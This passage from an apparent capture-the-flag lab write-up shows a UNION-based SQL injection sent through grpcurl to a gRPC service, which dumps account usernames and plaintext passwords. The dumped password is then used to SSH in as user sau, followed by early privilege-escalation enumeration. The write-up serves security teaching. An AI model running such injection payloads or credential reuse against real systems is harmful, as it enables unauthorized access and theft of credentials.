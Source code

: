 

I'm using `||` to concatenate columns, and then `group_concat` to get
multiple rows. The message from admin says the admin is working on
issues, and the other is the message for my current user.

#### accounts

There are three rows in `accounts`:



    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "admin:admin,sau:HereIsYourPassWord1431,0xdf:0xdf0xdf"



admin has the password admin, and sau has the password
"HereIsYourPassWord1431".

### SSH

That password works for sau over SSH:



    oxdf@hacky$ sshpass -p HereIsYourPassWord1431 ssh sau@10.10.11.214
    sau@pc:~$



And I can read `user.txt`:



    sau@pc:~$ cat user.txt
    1b0d383d************************



## Shell as root

### Enumeration

#### sau

sau cannot run `sudo`:



    sau@pc:~$ sudo -l
    [sudo] password for sau: 
    Sorry, user sau may not run sudo on localhost.



Their home directory is empty as well:



    sau@pc:~$ ls -la
    total 28
    drwxr-xr-x 3 sau  sau  4096 Jan 11 18:09 .
    drwxr-xr-x 3 root root 4096 Jan 11 18:10 ..
    lrwxrwxrwx 1 root root    9 Jan 11 18:08 .bash_history -> /dev/null
    -rw-r--r-- 1 sau  sau   220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 sau  sau  3771 Feb 25  2020 .bashrc
    drwx------ 2 sau  sau  4096 Jan 11 17:43 .cache
    -rw-r--r-- 1 sau  sau   807 Feb 25  2020 .profile
    lrwxrwxrwx 1 root root    9 Jan 11 18:09 .viminfo -> /dev/null
    -rw-r----- 1 root sau    33 May 24 12:44 user.txt
